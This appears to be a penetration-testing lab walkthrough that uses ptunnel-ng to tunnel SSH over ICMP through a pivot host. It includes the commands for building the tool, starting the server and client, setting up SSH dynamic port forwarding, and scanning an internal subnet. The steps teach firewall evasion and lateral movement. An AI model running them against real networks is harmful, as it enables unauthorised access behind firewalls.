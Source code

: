 - ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`.
- ICMP tunneling would **only work when ping responses are permitted within a firewalled network.**
- We will use the **[ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host**. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`.

# Setting Up & Using ptunnel-ng
--- 
- `git clone https://github.com/utoni/ptunnel-ng.git`
- `sudo apt install automake autoconf -y`
- `cd ptunnel-ng`
- `sudo ./autogen.sh `

- After running autogen.sh, **ptunnel-ng can be used from the client and server-side**. We will now need t**o transfer the repo from our attack host to the target host.**

## Transferring Ptunnel-ng to the Pivot Host
- `scp -r ptunnel-ng ubuntu@10.129.202.64:~/`
## Starting the ptunnel-ng Server on the Target Host
- `sudo ./ptunnel-ng -r10.129.202.64 -R22`

- The IP address following `-r` should be the **IP of the jump-box we want ptunnel-ng to accept connections on.**
- In this case, whatever IP is reachable from our attack host would be what we would use.

- Back on the **attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222** (`-l2222`).

## Connecting to ptunnel-ng Server from Attack Host
- `sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22`
- With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).

## Tunneling an SSH connection through an ICMP Tunnel
- `ssh -p2222 -lubuntu 127.0.0.1`

# Enabling Dynamic Port Forwarding over SSH
---
- `ssh -D 9050 -p2222 -lubuntu 127.0.0.1`
- We could use proxychains with Nmap to scan targets on the internal network (172.16.5.x). Based on our discoveries, we can attempt to connect to the target.